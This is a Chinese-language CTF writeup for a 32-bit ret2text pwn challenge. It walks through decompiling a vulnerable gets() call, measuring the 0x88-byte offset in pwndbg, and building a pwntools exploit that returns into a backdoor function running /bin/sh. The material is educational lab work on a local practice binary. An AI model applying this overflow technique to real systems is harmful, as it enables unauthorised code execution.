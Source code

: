 ```yaml
---
title: Ret2text[32]
author: 13m0n4de
difficulty: Normal
category: Pwn
image: ghcr.io/svuctf/svuctf-helloworld-2024/ret2text32:latest
port: 70
writeup_author: pn1fg
tags:
  - ret2text
reference:
---
```


# Ret2text\[32\]

## 题目描述

## 题目解析

`ret2text` 即 *Return to .text*，控制程序**返回**到程序 `.text` 段执行**已有的代码**。

其实不止可以控制程序执行已有的相邻的代码，还可以控制程序执行好几段**不相邻**的代码 (Gadgets)。

---

现在来到了“真正意义”上的 Pwn 题，我们需要输入特定的数据，破坏程序的执行流程，执行我们想要的代码，当然程序也可能会开启某些保护，我们需要想办法去绕过它们，不过这里暂时还没有。

不同于前几题，从这题开始要求有基本的反编译、调试程序能力，了解文件基本结构、程序的加载和执行流程。

### 查看文件信息

查看文件类型：

```
$ file ret2text32
ret2text32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0aa9c1e91756adee072cb3c1f93c68aa13ec64d9, not stripped
```

32位 ELF 文件，动态链接，没有去除符号。

查看保护机制：

```
$ checksec --file=ret2text32
RELRO           Partial RELRO
STACK CANARY    No canary found
NX              NX enabled
PIE             No PIE
RPATH           No RPATH
RUNPATH	        No RUNPATH
Symbols		    79 Symbols
FORTIFY	        No
Fortified	    0
Fortifiable	    2
FILE            ret2text32
```

NX 保护。

### 分析漏洞成因

反编译 `vuln` 函数：

```c
[0x08048480]> s sym.vuln
[0x08048684]> pdg

int vuln()
{
  char v1[136]; // [esp+10h] [ebp-88h] BYREF

  puts("Program: Hey there! Think you can hack me?");
  printf("You: ");
  gets(v1);
  return puts("Program: Hmm, I feel a bit strange...");
}
```

`gets` 函数可以读入无限制长度的字符（直到换行 `\n`），导致超出 `v1` 的长度，覆盖 `ebp` 的值，并继续覆盖函数的返回地址。

使用 [gdb](https://sourceware.org/gdb/) + [pwndbg](https://github.com/pwndbg/pwndbg) 调试，在 `0x080486ae` 处打断点，输入一串字符串，下面是栈的情况

```asm
pwndbg> stack 50
00:0000│ esp 0xffffcff0 —▸ 0xffffd000 ◂— 'dddd'
01:0004│     0xffffcff4 —▸ 0xf7f8ed87 (_IO_2_1_stdout_+71) ◂— 0xf8f8a00a
02:0008│     0xffffcff8 ◂— 1
03:000c│     0xffffcffc —▸ 0xf7de77bf (_IO_file_xsputn+399) ◂— cmp eax, edi
04:0010│ eax 0xffffd000 ◂— 'dddd'
05:0014│     0xffffd004 ◂— 0
06:0018│     0xffffd008 —▸ 0xffffd030 —▸ 0xf7f8ed40 (_IO_2_1_stdout_) ◂— 0xfbad2887
07:001c│     0xffffd00c ◂— 0xa /* '\n' */
08:0020│     0xffffd010 —▸ 0xf7f8ed40 (_IO_2_1_stdout_) ◂— 0xfbad2887
09:0024│     0xffffd014 —▸ 0xf7f8de2c (_GLOBAL_OFFSET_TABLE_) ◂— 0x22ed4c
0a:0028│     0xffffd018 —▸ 0xffffd068 —▸ 0xffffd088 —▸ 0xffffd098 ◂— 0
0b:002c│     0xffffd01c —▸ 0xf7ddd4c9 (putchar+217) ◂— mov ebx, eax
0c:0030│     0xffffd020 —▸ 0xf7f8ed40 (_IO_2_1_stdout_) ◂— 0xfbad2887
0d:0034│     0xffffd024 —▸ 0xf7f8de2c (_GLOBAL_OFFSET_TABLE_) ◂— 0x22ed4c
0e:0038│     0xffffd028 —▸ 0xf7de66d9 (_IO_file_overflow+9) ◂— add eax, 0x1a7753
0f:003c│     0xffffd02c —▸ 0xf7ddd4c9 (putchar+217) ◂— mov ebx, eax
10:0040│     0xffffd030 —▸ 0xf7f8ed40 (_IO_2_1_stdout_) ◂— 0xfbad2887
11:0044│     0xffffd034 ◂— 0xa /* '\n' */
12:0048│     0xffffd038 ◂— 0x26 /* '&' */
13:004c│     0xffffd03c —▸ 0xffffd068 —▸ 0xffffd088 —▸ 0xffffd098 ◂— 0
14:0050│     0xffffd040 —▸ 0xf7ffcfe4 (_GLOBAL_OFFSET_TABLE_) ◂— 0x34f2c
15:0054│     0xffffd044 —▸ 0xf7f8de2c (_GLOBAL_OFFSET_TABLE_) ◂— 0x22ed4c
16:0058│     0xffffd048 —▸ 0xf7f8d7a8 (_IO_file_jumps) ◂— 0
17:005c│     0xffffd04c —▸ 0xf7fc1440 ◂— 0xf7fc1440
18:0060│     0xffffd050 —▸ 0xffffd088 —▸ 0xffffd098 ◂— 0
19:0064│     0xffffd054 —▸ 0xf7fd8f20 (_dl_runtime_resolve+16) ◂— pop edx
1a:0068│     0xffffd058 ◂— 0
1b:006c│     0xffffd05c —▸ 0xf7f8de2c (_GLOBAL_OFFSET_TABLE_) ◂— 0x22ed4c
1c:0070│     0xffffd060 —▸ 0x80486e0 (__libc_csu_init) ◂— push ebp
1d:0074│     0xffffd064 —▸ 0xf7ffcb60 (_rtld_global_ro) ◂— 0
1e:0078│     0xffffd068 —▸ 0xffffd088 —▸ 0xffffd098 ◂— 0
1f:007c│     0xffffd06c —▸ 0x804866e (banner+90) ◂— leave
20:0080│     0xffffd070 ◂— 0xa /* '\n' */
21:0084│     0xffffd074 ◂— 0
22:0088│     0xffffd078 ◂— 2
23:008c│     0xffffd07c ◂— 0
... ↓        2 skipped
26:0098│ ebp 0xffffd088 —▸ 0xffffd098 ◂— 0
```

我们的输入点 `v1` 距离 `ebp` 寄存器 `0xffffd088 - 0xffffd000 = 0x88`，也就是 136，与反编译得到的结果一致。

当我们输入 136 个字符以后，再输入 4 个字符，就可以完全覆盖 `ebp`，继续输入 4 个字符，即可**覆盖返回地址**。

### 构造利用载荷

新的问题，覆盖返回地址，返回到哪呢？

列出程序所有函数：

```
[0x08048670]> afl
0x08048400    1      6 sym.imp.printf
0x08048410    1      6 sym.imp.gets
0x08048420    1      6 sym.imp.puts
0x08048430    1      6 sym.imp.system
0x08048440    1      6 sym.imp.__libc_start_main
0x08048450    1      6 sym.imp.setvbuf
0x08048460    1      6 sym.imp.putchar
0x08048480    1     50 entry0
0x080484b3    1      4 fcn.080484b3
0x080484e0    4     42 sym.deregister_tm_clones
0x08048510    4     55 sym.register_tm_clones
0x08048550    3     30 sym.__do_global_dtors_aux
0x08048570    4     44 sym.frame_dummy
0x08048740    1      2 sym.__libc_csu_fini
0x080484d0    1      4 sym.__x86.get_pc_thunk.bx
0x08048684    1     61 sym.vuln
0x08048744    1     20 sym._fini
0x08048614    1     92 sym.banner
0x0804859d    1    119 sym.init
0x080486e0    4     93 sym.__libc_csu_init
0x08048670    1     20 sym.backdoor
0x080484c0    1      2 sym._dl_relocate_static_pie
0x080486c1    1     28 main
0x080483c0    3     35 sym._init
0x08048470    1      6 fcn.08048470
```

很显眼的后门函数`backdoor`，反编译如下：

```c
[0x08048684]> s sym.backdoor
[0x08048670]> pdg

int backdoor()
{
  return system("/bin/sh");
}
```

程序调用 `system` 执行 `/bin/sh`，从而获取 shell，我们可以覆盖返回地址为 `backdoor` 函数的地址

所以我们可以构造一个 payload（攻击载荷）：

```
|<--      padding       ->| + |<- fake ebp ->| + |<- return address ->| + |<- newline -->|
aaaabaaacaaa...yaaazaaabaab +       caab       +    \x70\x86\x04\x08    +      \x0a       
|          0x88           |   |     0x4      |   |        0x4         |   |     0x1      |
```

### 编写利用程序

```python
from pwn import *

context.arch = "i386"
context.log_level = "debug"

io = process("../attachments/ret2text32")
elf = ELF("../attachments/ret2text32")

payload = flat([cyclic(136), b"A" * 4, elf.sym["backdoor"]])
io.sendlineafter(b"You: ", payload)

io.interactive()
```

